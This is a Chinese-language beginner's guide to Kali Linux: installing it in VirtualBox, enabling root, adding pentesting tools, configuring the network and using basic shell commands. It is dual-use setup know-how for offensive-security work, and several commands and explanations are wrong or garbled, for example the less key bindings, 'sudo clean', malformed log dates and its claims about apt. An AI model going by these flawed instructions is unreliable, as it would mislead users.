




# Kali Linux：道德黑客与渗透测试权威指南


# 1. Kali Linux 简介

Kali Linux 是一种广受欢迎且先进的渗透测试和道德黑客操作系统。它基于 Debian 发行版，由领先的信息安全培训公司 Offensive Security 维护并资助。Kali Linux 旨在为信息安全专业人员和爱好者提供一套全面的工具集，用于测试和评估系统、网络及应用程序安全性。

Kali Linux 的起源可以追溯到 2006 年创建的 BackTrack 发行版。BackTrack 曾是一个流行的渗透测试操作系统，结合了多种用于道德黑客和安全评估的工具和程序。随着时间的推移，BackTrack 的开发团队意识到需要一个更全面、更易用的平台，于是他们创建了 Kali Linux。

Kali Linux 于 2013 年首次发布，并随着时间的推移获得了广泛普及。它是目前使用的渗透测试操作系统之一。它不断更新新工具和新功能，被广泛认为是道德黑客和渗透测试的首选平台。

Kali Linux 的开发由一个专业的安全专家和专业人士组成的团队领导，他们致力于确保该平台处于安全社区的前沿。Kali Linux 设计得易于使用且具有高可用性，对于经验丰富的信息安全专业人士和初入学者来说都是理想选择。

Kali Linux 具有几个关键特性和优势，使其成为信息安全专业人士和爱好者的不可或缺的工具：

- **全面的工具集**：Kali Linux 包含 600 预装的安全工具，涵盖了网络扫描、漏洞评估、利用、Web 应用程序渗透测试、无线攻击等广泛领域。这节省了用户手动安装和配置多个工具的时间和精力。
- **易用型界面**：Kali Linux 的界面用户友好，使用户可以轻松地访问平台包含的各种工具和实用程序。该界面的设计目标是用户友好且直观，即使是对于 Linux 或渗透测试的新手也能轻松导航。
- **可定制性**：Kali Linux 可以根据用户的特定需求进行定制。该平台支持广泛的硬件并可以作为虚拟机运行，便于在各种环境中使用。
- **定期更新**：Kali Linux 定期更新新工具、功能和错误修复，确保用户能够获得最新最先进的安全工具和技术。
- **社区支持**：Kali Linux 拥有庞大且活跃的用户和开发者社区，他们经常分享技巧、技术和知识。对于希望进一步提高信息安全领域技能和知识的用户来说这种社区支持是无价的。
- **开源**：Kali Linux 是开源软件，这意味着用户可以访问源代码、修改并根据需要重新分发。这为平台提供了专有解决方案无法比的透明度和信任感。

要在 Windows 操作系统上使用 `VirtualBox` 将 Kali Linux 安装为虚拟机：

1. 从官网（`https://www.virtualbox.org/wiki/Downloads`）下载并安装 `VirtualBox`。
2. 从官网下载 Kali Linux 的 ISO 文件（`https://www.kali.org/downloads/`）。
3. 启动 `VirtualBox` 并点击“新建”按钮创建一个新虚拟机。
4. 按照屏幕指令配置虚拟机，例如选择操作系统类型（`Linux`）和版本（`Debian`），并设置分配的内存和硬盘空间。
5. 虚拟机创建完成后，选择它并点击“设置”按钮。在设置中，选择“存储”选项，并将 Kali Linux ISO 文件作为光驱添加到虚拟机中。
6. 启动虚拟机并在启动菜单中选择带有 Kali Linux ISO 文件的光驱。Kali Linux 安装程序将启动，并协助你完成操作系统的安装。

安装完成后，登录新安装的 Kali Linux 虚拟机并运行更新和升级系统的命令：

```bash
$ sudo apt-get clean
$ sudo apt-get update
$ sudo apt-get upgrade -y
$ sudo apt dist-upgrade -y
$ sudo apt autoremove && sudo clean
```

`sudo apt-get clean` 命令用于通过移除软件包缓存来释放磁盘空间。

`sudo apt-get update` 命令用于从仓库下载软件包信息，包括安装软件包所需的依赖、文件和脚本。

`sudo apt-get upgrade -y` 命令将已安装的软件包升级到新版本，`-y` 选项会自动对需要用户输入的提示回答“是”。

`sudo apt dist-upgrade -y` 命令用于执行发行版升级，这可能涉及通过简单升级无法实现的系统更改。

`-y` 选项再次自动对需要用户输入的提示回答“是”。

默认情况下，Kali Linux 未启用 root 账户。但是，你可以通过以下步骤启用 root 账户并设置密码：

```bash
$ sudo passwd root
输入新 Unix 密码：在此处输入所需的 root 密码
重输新 Unix 密码：确认 root 密码
密码已成功更新

$ su
密码：[输入 root 密码]
## [现在以 root 用户身份登录]

## exit
$ [你已回到普通用户账户]
```

在此示例中，`sudo passwd root` 命令用于为 root 账户设置密码。然后使用 `su` 命令切换到 root 账户，并在提示时输入 root 密码。`exit` 命令用于切换回普通用户账户。

安装桌面环境：


如果你想使用带有图形用户界面的 Kali Linux，你需要安装一个桌面环境。Kali Linux 最常用的桌面环境是 `Gnome`，但其他其他的，如 `Xfce`、`Mate` 和 `KDE`。要安装 `Gnome`，请在终端运行以下命令：

```bash
sudo apt-get install kali-desktop-gnome
```

### 安装 Gnome Tweaks

使用 `Gnome Tweaks` 可以更改字体大小、启用/禁用桌面图标，或安装和管理 `Gnome Shell` 扩展。`Gnome Tweaks` 提供了一个易于使用的界面，用于访问普通桌面设置中无法提供的高级配置选项。

```bash
sudo apt install gnome-tweaks
```

### 安装 Tor Browser

下载 Tor 浏览器包：访问 Tor 项目网站 ([`www.torproject.org/download/`](https://www.torproject.org/download/)) 并下载适用于你系统的最新 Tor 浏览器包。

解压 Tor 浏览器包：下载 Tor 浏览器包后，将其解压到你选择的目录。例如：

```bash
tar -xvJf tor-browser-linux64-9.5.2_en-US.tar.xz
```

启动 Tor 浏览器：进入你解压 Tor 浏览器包的目录，双击 `start-tor-browser` 脚本。这将启动 Tor 浏览器。

连接到 Tor 网络：首次启动 Tor 浏览器时，系统会提示连接到 Tor 网络。只需点击“Connect”（连接）按钮即可开始使用 Tor 浏览器。

### 安装软件中心

```bash
sudo apt install software-center
```

`Software Center`（软件中心）是一个应用程序，提供了一个易于使用的界面来管理系统中安装的软件。通过 `Software Center`，你可以浏览并安装新软件，查看已安装软件的信息，并管理系统的软件更新。

当你运行 `sudo apt install software-center` 命令时，`Software Center` 软件包将安装到你的系统上。安装完成后，你可以通过在菜单中搜索“Software Center”或在终端中运行以下命令来启动 `Software Center`：

```bash
software-center
```

启动后，你可以使用 `Software Center` 浏览可用软件，查看单个软件包的信息，并点击一下安装新软件。`Software Center` 还提供了一种管理软件更新的便捷方法，使你的系统更容易保持最新的安全补丁和错误修复。

### 安装 GDebi 包管理器

```bash
sudo apt install gdebi
```

`gdebi` 是一个简单而强大的包管理器，用于安装 `.deb`（Debian）软件包，这是基于 Debian 的系统的标准软件包格式。与标准的包管理器 `apt` 不同，`gdebi` 可以自动安装软件包所需的所有依赖项，使得安装具有多个依赖关系的复杂软件包变得更加简单。

当你运行 `sudo apt install gdebi` 命令时，`gdebi` 将安装到你的系统中，你可以用它来安装 `.deb` 软件包。要使用 `gdebi`，只需运行 `gdebi` 命令并加上你想安装的 `.deb` 包的名称，例如：

```bash
sudo gdebi my-package.deb
```

`gdebi` 将自动下载并安装软件包所需的依赖项，并安装软件包本身。如果在安装过程中发生任何冲突或错误，`gdebi` 将提醒你并提供解决问题的信息。

### 安装 Katoolin

打开终端窗口并执行以下命令下载 Katoolin 脚本：

```bash
wget https://github.com/LionSec/katoolin/raw/master/katoolin.py
```

赋予脚本可执行权限：

```bash
chmod +x katoolin.py
```

运行脚本：

```bash
sudo ./katoolin.py
```

现在将显示 `Katoolin` 菜单。从菜单中，你可以选择安装所有的 Kali Linux 工具、特定工具、更新包列表、移除 Kali Linux 工具或退出脚本。

要安装 Kali Linux 的所有工具，请选择选项 1。要安装特定工具，选择选项 2，然后选择你想安装的各个工具。

要更新包列表，选择选项 3。要移除 Kali Linux 工具，选择选项 4。要退出脚本，选择选项 0。

按照屏幕上显示的说明完成安装。

```bash
sudo apt install git
sudo git clone https://github.com/LionSec/katoolin.git
sudo cp katoolin/katoolin.py /usr/bin/katoolin
sudo chmod +x /usr/bin/katoolin
sudo katoolin
```

### VirtualBox 扩展包

在使用 `VirtualBox` 设置虚拟环境时，你可能需要安装 `VirtualBox Extension Pack` 以启用对 USB 设备和其他高级的支持。

要安装 `VirtualBox Extension Pack`，你可以遵循以下步骤：

1. 从 VirtualBox 网站下载扩展包。
2. 启动 `VirtualBox` 并选择 Kali Linux 虚拟机。
3. 进入 File（文件）菜单并选择 Preferences（选项）。
4. 在 Preferences 窗口中，选择 Extensions（扩展）。
5. 点击 Add Package（添加包）按钮并选择你刚刚下载的扩展包文件。
6. 按照说明安装扩展包。
7. 重启 `VirtualBox` 使更改生效。

你也可以使用命令行安装 `VirtualBox Extension Pack`。操作步骤如下：

1. 下载扩展包文件并记录其位置。
2. 在 Kali Linux 中启动终端。
3. 运行以下命令安装 `VirtualBox Extension Pack`：

```bash
sudo VBoxManage extpack install [extension pack file].vbox-extpack
```

4. 将 `[extension pack file].vbox-extpack` 替换为你下载的扩展包文件名。
5. 系统将提示确认安装，输入 `y` 并按回车。
6. 扩展包将被安装，并显示一条安装成功的消息。
7. 重启 `VirtualBox` 使更改生效。

### 故障排除

如果你的 Kali Linux 在虚拟机（VM）中安装失败，可以尝试以下步骤：

- **检查虚拟机配置**：确保虚拟机有足够的资源，如 `RAM`（内存）、`CPU` 和磁盘空间来运行 Kali Linux。虚拟机应至少分配 2GB 的 `RAM` 和 20GB 的磁盘空间。
- **确保与虚拟化平台的兼容性**：Kali Linux 兼容 `VirtualBox`、`VMware` 和 `Hyper-V` 等各种虚拟化平台。确保你使用的虚拟化平台与 Kali Linux 兼容并已安装最新更新。
- **验证 ISO 镜像**：在虚拟机中安装 Kali Linux 之前，确保 ISO 镜像没有损坏。可以使用以下命令验证 ISO 镜像的校验和：

```bash
sha256sum kali-linux-<version>-<architecture>.iso
```
- **设置虚拟机从安装媒体启动**：确保虚拟机已设置为从 ISO 镜像或安装媒体启动。你必须修改虚拟机设置中的启动顺序以从 ISO 镜像启动。
- **使用正确的设置进行安装**：在安装过程中，确保选择正确的分区方案、文件系统和安装位置。
- **检查网络连接性**：确保虚拟机在安装过程中具有网络连接性。这对于下载和安装软件包及更新是必要的。
- **更新虚拟机的固件**：如果虚拟机运行在带有 `UEFI` 固件的主机上，请确保虚拟机的固件已更新到最新版本。
- **检查硬件虚拟化支持**：确保宿主机在 BIOS 或 `UEFI` 设置中已启用硬件虚拟化支持。这对于运行虚拟机是必要的。
- **使用干净的虚拟机**：如果你之前在虚拟机中安装过 Kali Linux 但失败了，请尝试创建一个新的虚拟机并从头开始安装过程。


检查日志文件以查找任何异常活动或错误消息，这些信息可能导致安装失败。在这种情况下，从 `syslinux` 日志文件中可以看出机器没有足够的磁盘空间来完成 Kali Linux 的安装。日志显示在拷贝实时系统的 `tar` 过程中发生了错误，因为在错误发生之前，286496 个文件中仅拷贝了 152937 个，错误信息为：“No space left on device”（设备上空间不足）。主菜单还报告了一个警告，称 `live-installer` 配置因错误代码 1 失败，表明问题与磁盘空间不足有关。日志还显示 `debconf` 优先级已从 'high' 修改为 'medium'。

```
Feb 110 22:25:15 base-installer: error: The tar process copying the live system failed (only 152937 out of 286496 files have been copied, last file was ).

Feb 110 22:25:15 main-menu[527]: WARNING : Menu item 'live-installer' failed.

Feb 110 22:25:15 main-men[527]: INFO: Modifying debconf priority limit from 'high' to 'medium'

Feb 110 22:25:15 main-menu[527]: (process:7553): tar: write error: No space left on device

Feb 110 22:25:15 debconf: Setting debconf/priority to medium

Feb 110 22:25:15 main-menu[527]: INFO: Menu item 'save-logs' selected

Feb 110 22:25:15 main-menu[527]: WARNING : Configuring 'live-installer' failed with error code 1
```

从社区寻求帮助：如果你在虚拟机上安装 Kali Linux 时仍然遇到困难，可以向 Kali Linux 社区论坛或在线资源寻求帮助。你可以从社区中获得许多有用信息和排错提示。

有关更多信息，请访问 [`www.kali.org/`](https://www.kali.org/)


# 设置 Kali Linux 环境

Kali Linux 通常用于渗透测试、安全研究和数字取证。为了充分利用 Kali Linux，设置一个符合你特定需求和要求的合适环境至关重要。

*   在 Kali Linux 中安装额外的软件包
*   在 Kali Linux 中配置网络设置
*   在 Kali Linux 中设置虚拟环境
*   加固你的 Kali Linux 环境
*   根据你的喜好自定义 Kali Linux 环境

## 在 Kali Linux 中安装额外的软件包

Kali Linux 预装了广泛的常用于安全和渗透测试的软件包。然而，如果你需要额外的软件包，可以使用 `apt-get` 软件包管理器轻松地安装它们。

### 示例：

在 Kali Linux 中安装 `nmap` 网络扫描器：
```
$ sudo apt-get update [更新包列表]
$ sudo apt-get install nmap [安装 nmap 包]
```

在 Kali Linux 中安装 `wireshark` 网络协议分析器：
```
$ sudo apt-get update [更新包列表]
$ sudo apt-get install wireshark [安装 wireshark 包]
```

在 Kali Linux 中安装 `metasploit-framework`：
```
$ sudo apt-get update [更新包列表]
$ sudo apt-get install metasploit-framework [安装 Metasploit Framework 包]
```

在 Kali Linux 中安装 `airrack-ng` 无线安全工具包：
```
$ sudo apt-get update [更新包列表]
$ sudo apt-get install aircrack-ng [安装 Aircrack-ng 包]
```

在 Kali Linux 中安装 `openssh-server`：
```
$ sudo apt-get update [更新包列表]
$ sudo apt-get install openssh-server [安装 OpenSSH 服务包]
```

`sudo apt-get update` 命令更新包列表，该列表列出了可以安装在系统上的可用软件软件包及其版本。这是一个重要的步骤，可以确保在尝试安装新软件包之前，系统能够识别最新的软件软件包及其版本。

`sudo apt-get install` 命令安装所需的软件软件包。软件包的名称指定在 `install` 命令之后。

注意，使用 `sudo` 命令以管理员权限运行命令，这对于在系统上安装软件包是必要的。

要安装的软件软件包名称指定在 `install` 命令之后。

## 在 Kali Linux 中配置网络设置

Kali Linux 设计用于在各种网络配置上运行，包括有线和无线网络。你可以通过网络管理器或手动编辑网络配置文件来在 Kali Linux 中配置网络设置。

通过点击任务栏上的网络图标或在终端中输入 `nm-connection-editor` 来打开网络管理器。

1. 点击“Add”（添加）按钮并选择“Wi-Fi”。
2. 填写无线网络的必要信息，包括 SSID（网络名称）、安全类型和密码。
3. 点击“Save”（保存）按钮保存配置。

### 手动配置静态 IP 地址：

使用 `nano` 或 `vi` 等文本编辑器打开 `/etc/network/interfaces` 文件。

添加以下行来配置静态 IP 地址：
```
auto eth0
iface eth0 inet static
address 192.168.1.100
netmask 255.255.255.0
gateway 192.168.1.1
```

使用以下命令保存更改并重启网络服务：
```
$ sudo service networking restart
```
示例中，`eth0` 是接口名称，`192.168.1.100` 是静态 IP 地址，`255.255.255.0` 是子网掩码，`192.168.1.1` 是网关。

使用以下命令保存更改并重启网络服务：
```
$ sudo service networking restart
```
运行以下命令编辑 `hostname` 文件：
```
$ sudo nano /etc/hostname
```
将当前主机名替换为所需的主机。

点击 `CTRL + X`，然后按 `Y`，最后按 `Enter` 保存。

运行命令重启系统使更改生效：
```
$ sudo reboot
```

通过以管理员权限编辑网络配置文件 `/etc/resolv.conf` 在 Kali Linux 中配置 DNS：
```
$ sudo nano /etc/resolv.conf
```
添加你想使用的 DNS 服务器。例如：
```
nameserver 8.8.8.8
nameserver 8.8.4.4
```
这些 Google 公共 DNS 服务器。你可以添加任何其他你想使用的服务器。

保存更改并退出编辑器。

使用 `nslookup` 或 `dig` 命令测试 DNS 配置：
```
nslookup www.google.com
```
或者
```
dig www.google.com
```
在此输出中，`dig` 命令向 DNS 服务器查询有关 `www.google.com` 的信息。

```
; DiG 9.16.1-Ubuntu www.google.com

;; global options: +cmd
;; Got answer:
;; ->HEADER- opcode: QUERY, status: NOERROR, id: 57807
;; flags: qr ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1
;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 65494

;; QUESTION SECTION:
;www.google.com.	IN	A

;; ANSWER SECTION:
www.google.com.	300	A	172.217.16.174

;; Query time: 14 msec
;; SERVER: 127.0.0.53#53(127.0.0.53)
;; WHEN: Tue Feb 15 15:47:05 UTC 2022
;; MSG SIZE  rcvd: 55
```

## 在 Kali Linux 中设置虚拟环境

虚拟化技术是安全和渗透测试的一个重要方面，因为它允许你在受控环境中隔离并测试不同的系统和场景。你可以使用 `VirtualBox` 或 `VMware` 等虚拟化软件在 Kali Linux 中设置虚拟环境。


# 保护你的 Kali Linux 环境

保护你的 Kali Linux 环境对于保护你的数据和防止未经授权的访问至关重要。你可以通过加密、防火墙和访问控制等措施来保护你的 Kali Linux 环境。

## 根据喜好自定义 Kali Linux 环境

Kali Linux 允许你对操作系统的各个方面进行自定义，包括用户界面、键盘布局和系统设置。你可以使用各种自定义工具和设置按照你的喜好自定义 Kali Linux 环境。

通过建立合适的环境，你可以确保自己拥有所需的工具和资源，以便在 Kali Linux 中高效地执行安全和渗透测试任务。



## 3.  Linux 命令与导航

### ls - 列出当前目录下的文件和目录：

- `ls`: 显示当前目录下文件和目录的简单列表。
- `ls -l`: 以长列表格式显示，包含权限、所有者、组、大小和修改日期等详细信息。
- `ls -a`: 除了普通文件和目录外还显示隐藏文件和目录。
- `ls -la`: 结合选项 `-l` 和 `-a`，同时显示长列表格式以及隐藏文件和目录。
- `ls directory name`: 显示指定目录下的文件和目录，而不是当前目录。例如，`ls /home/user` 将显示 `/home/user` 目录的内容。

```
$ ls -l

total 8
drwxrwxr-x 2 user1 user1 4096 Jan  10 16:15 Documents
drwxrwxr-x 2 user1 user1 4096  Jan  11 08:45 Downloads
-rw-rw-r-- 1  user1 user1 220 Feb  4  2023 .bash_logout
-rw-rw-r-- 1  user1 user1 3771  Feb 4  2023.bashrc
-rw-rw-r-- 1 user1 user1 807 Feb 4  2023.profile
```

```
$ ls -a

.  ..  .bash_logout  .bashrc  .profile  Documents  Downloads
```

```
$ ls -la

total 8
drwxrwxr-x 2 user1 user1 4096 Jan 10 16:15 .
drwxrwxr-x 8 user1 user1 4096 Jan 10 08:45 ..
-rw-rw-r-- 1 user1 user1  220 Feb 4  2023.bash_logout
-rw-rw-r-- 1 user1 user1 3771 Feb 4  2023.bashrc
-rw-rw-r-- 1 user1 user1 807 Feb 4  2023 profile
drwxrwxr-x 2 user1 user1 4096 Jan 10 16:15 Documents
drwxrwxr-x 2 user1 user1 4096 Jan 11 08:45 Downloads
```

```
$ ls directory_name

ls Documents
Pictures Work
```

```
$ ls -t

file4.txt  file2.txt  file3.txt  file1.txt
```

在此示例中，`ls -t` 命令列出当前目录的内容，并按修改时间降序排列。最近修改的文件 `file4.txt` 显示在第一个，随后是 `file2.txt`、`file3.txt` 和 `file1.txt`。

```
$ ls -R

.:
file1.txt  file2.txt  subdir1
./subdir1:
file3.txt  file4.txt
```

在此示例中，`ls -R` 命令递归列出当前目录及其子目录的内容。第一行显示当前目录（`.`）的内容，包含三个项目：`file1.txt`、`file2.txt` 和目录 `subdir1`。

### cd - 切换当前目录：

- `cd Documents`: 将当前目录切换到 `Documents` 目录。
- `cd ..`: 将当前目录切换到当前目录的父目录。
- `cd ~/Downloads`: 将当前目录切换到主目录下的 `Downloads` 目录。
- `cd /`: 将当前目录切换到根目录 `/`。
- `cd -`: 切换到上一次 `cd` 命令所在的目录。

切换回主目录：
```
$ cd ~
```

切换到特定目录：
```
$ cd /path/to/directory
$ cd ~/documents
```

切换到上一个目录：
```bash
$ cd -
```

切换到根目录：
```bash
$ cd /
```

切换到父目录：
```bash
$ cd ..
```


```
cat file1.txt file2.txt > combined_file.txt
```

### 连续显示多个文件的内容：

```bash
cat file1.txt file2.txt
```

### 显示文件内容及其行号：

```bash
cat -n file.txt
```

### 显示非打印字符（如制表符）：

```bash
cat -T file.txt
```

### 从指定行数开始显示文件内容：

```bash
cat file.txt | tail -n +10
```

### `less` - 逐页查看文件内容：

1- 显示文件内容：
```bash
less file.txt
```

2- 在文件中搜索特定模式：
```bash
less file.txt /pattern
```

3- 跳到文件末尾：
```bash
G
```

4- 跳到文件开头：
```bash
1G
```

5- 逐行向下滚动：
```bash
Enter
```

6- 逐行向上滚动：
```bash
Shift + Enter
```

7- 退出 less：
```bash
q
```

### `clear` - 清除终端屏幕：

```bash
clear
```

此命令将移除终端中之前的所有输出，留下一个空屏幕。这对于清理终端并更容易阅读新输出非常有帮助。

### `exit` - 退出终端会话：

```bash
exit
```

此命令将结束当前的终端会话，根据你所使用的环境，注销系统或关闭终端窗口。如果你处于 shell 脚本内部，它将退出并将控制权交给父 shell。如果你在终端的 shell 中，它将退出并将控制权交给终端。

### `man` - 访问命令的帮助页：

```bash
man command_name
```

将 `command_name` 替换为想要查看帮助页的命令名称。例如，要查看 `ls` 命令的帮助页，运行：

```bash
man ls
```

`man` 命令将以终端中易于阅读的格式显示帮助页。它将显示有关命令语法、选项的信息，以及如何使用的示例。你可以使用箭头键浏览帮助页，或搜索特定文本。要退出帮助页，可以按 `q`。

### `ps` - 显示运行中进程的信息：

显示在当前终端中运行的进程信息：
```bash
ps
```

显示系统上运行的所有进程的信息：
```bash
ps -ef
```

通过 `PID` 显示特定进程的信息：
```bash
ps -p PID
```

显示特定用户进程的信息：
```bash
ps -u username
```

显示具有特定 TTY 进程的信息：
```bash
ps -t TTY
```

显示进程 ID 及其关联命令名称的列表：
```bash
ps -o pid,comm
```

### `top` - 显示系统性能的实时信息：

```bash
top
```

此命令将显示系统上运行进程的实时视图，将资源密集型进程显示在顶部。顶部显示的信息包括进程 ID (`PID`)、命令名称、启动进程的用户、CPU 占用率、内存使用情况以及进程状态。

以下是可以在 `top` 中执行的某些常用操作：

- 按不同列排序：按 `Shift + [字段字母]`。
- 刷新视图：按 `Shift + R`。
- 退出 top：按 `q`。
- 按内存占用排序：按 `Shift + M`。
- 按 CPU 占用排序：按 `Shift + P`。

### `df` - 显示磁盘空间使用信息：

显示所有文件系统的磁盘空间使用：
```bash
df
```

以人类可读的格式（例如 GB, MB, KB）显示磁盘空间使用：
```bash
df -h
```

显示特定文件系统的磁盘空间使用：
```bash
df -h /path/to/file_system
```

### `du` - 估算文件空间占用：

显示当前目录的总磁盘占用：
```bash
du -sh
```

显示当前目录下所有文件和子目录的总磁盘占用：
```bash
du -ah
```

显示特定文件的总磁盘占用：
```bash
du -h /path/to/file
```

按大小降序对 `du` 命令的输出进行排序：
```bash
du -sh * | sort -rh
```

显示当前目录下所有子目录的总磁盘占用，而不列出单个文件：
```bash
du -sh */
```

### `find` - 搜索文件和目录：

在当前目录及其子目录中的所有文件：
```bash
find . -type f
```

在当前目录及其子目录中查找具有特定名称（例如 "example.txt"）的文件：
```bash
find . -name "example.txt"
```

查找在过去 7 天内修改过的文件：
```bash
find . -type f -mtime -7
```

查找所有大于 100 MB 的文件：
```bash
find . -type f -size +100M
```

定位当前目录及其子目录中的所有目录：
```bash
find . -type d
```

